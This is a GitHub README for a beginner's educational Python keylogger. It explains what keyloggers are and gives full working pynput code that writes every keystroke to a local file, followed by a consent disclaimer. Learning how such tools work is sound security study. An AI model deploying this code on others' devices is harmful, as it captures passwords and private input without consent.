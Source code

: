 # Basic Python Keylogger

---

This is a simple keylogger created in Python using `pynput`. The project was built in Visual Studio Code as part of my learning journey into cybersecurity and ethical hacking. It is intended **purely for educational purposes** — please do not use this unethically or without consent.

---

## What is a Keylogger?

A keylogger is a tool that records every keystroke made on a keyboard. It is often used to monitor user input and store that input into a file. While it can be used maliciously, it is also useful for educational demonstrations, user testing, and parental controls (when legally and ethically applied).

---

## Installation

Make sure Python is installed, then install the required package using the command below:

```bash
python -m pip install pynput
```
Then save the following code as keylogger.py and run it:
```python
# Import the keyboard listener module from pynput
from pynput import keyboard

# Define the function to run when a key is pressed
def keyPressed(key):
    print(str(key))  # Print the pressed key to the console

    # Open or create a text file to store the logged keys
    with open("keyfile.txt", 'a') as logKey:
        try:
            # Try to write the character to the file
            char = key.char
            logKey.write(char)
        except:
            # If it’s a special key (e.g. Enter, Shift), it might not have a char attribute
            print("Error getting char")

# Only run this section if the script is executed directly (not imported)
if __name__ == "__main__": 
    # Create a listener that triggers keyPressed whenever a key is pressed
    listener = keyboard.Listener(on_press=keyPressed)
    
    # Start the listener in the background
    listener.start()
    
    # Keep the program running with user input to prevent it from closing
    input()
```
# Disclaimer
This project is for educational purposes only. Using keyloggers without explicit permission is illegal and unethical. Always ensure you have proper consent before running this or similar software on any device.




